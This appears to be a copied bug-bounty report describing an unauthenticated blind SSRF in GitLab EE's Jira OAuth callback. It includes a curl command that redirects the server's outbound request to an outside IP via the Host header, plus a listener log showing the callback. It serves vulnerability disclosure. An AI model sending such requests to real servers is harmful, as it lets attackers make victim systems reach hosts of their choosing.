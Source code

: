 ### Unauthenticated blind SSRF in OAuth Jira authorization controller
https://hackerone.com/reports/398799  

### Steps to reproduce the issue
1. spin up a GitLab EE instance with the latest version (11.2.1-ee
2. send a POST request to the /-/jira/login/oauth/callback endpoint, as shown below. In the request, point the Host header to the hostname / IP address and port number you want to send the request to
  ```curl -X POST -H 'Host: 162.243.147.21:81' 'https://gitlab.com/-/jira/login/oauth/access_token'```
3. Observe a POST request being sent to 162.243.147.21:81 (in this case HTTPS):  

```
Listening on [0.0.0.0] (family 0, port 81)
Connection from [35.231.137.154] port 81 [tcp/*] accepted (family 2, sport 58558)
��ؒ����
��/$����4�i�,�֟J%>�+�/�,�0�����#�'�	��$�(�
�gk39@j28��<=/5�l162.243.147.21

 Connection closed, listening again.
```  

Unable to understand the report properly
